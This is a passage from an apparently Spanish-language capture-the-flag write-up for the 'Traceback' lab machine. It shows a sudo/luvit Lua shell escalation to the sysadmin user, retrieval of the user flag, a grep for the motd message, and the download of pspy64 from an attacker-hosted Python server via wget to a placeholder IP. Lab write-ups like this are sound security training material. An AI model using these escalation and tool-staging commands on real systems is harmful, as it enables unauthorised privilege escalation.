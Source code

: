 Si nos creamos un pequeño script, para que nos abra una shell como sysadmin. Ya que al ejecutar el comando con sudo, nos abrirá la shell como sysadmin.

```
webadmin@traceback:~$ echo 'os.execute("/bin/bash")' > /home/webadmin/test.lua
webadmin@traceback:~$ cat /home/webadmin/test.lua
os.execute("/bin/bash")
```

Al ejecutar el script con sudo, nos abre un shell como usuario sysadmin, y ya podemos obtener la flag de user.

```
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit /home/webadmin/test.lua
sysadmin@traceback:~$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)

sysadmin@traceback:~$ cat /home/sysadmin/user.txt | cut -c1-20
9dca64fa7d95b9647b71

```

## Root flag

Cuando nos conectamos por **SSH** nos resulta curioso el mensaje que aparece. Buscaremos de forma recursiva el mensaje *"Welcome to Xh4H land"*.

```
sysadmin@traceback:~$ cd /
sysadmin@traceback:/$ grep -r -i "Welcome to Xh4H land" 2>/dev/null
etc/update-motd.d/00-header:echo "\nWelcome to Xh4H land \n"
var/backups/.update-motd.d/00-header:echo "\nWelcome to Xh4H land \n"

```

Lanzamos la utilidad *pspy64* para enumerar los procesos que están corriendo.
Primero nos descargamos el [pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64) y lo subimos a la máquina.

```
# Maquina atacante
$ python -m SimpleHTTPServer

#Maquina victima
sysadmin@traceback:/home/sysadmin$ wget http://TU_IP:8000/pspy64

```
Y lo ejecutamos.

```
$ sysadmin@traceback:/home/sysadmin$ ./pspy64 
2020/08/19 13:38:01 CMD: UID=0    PID=3895   | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 

```
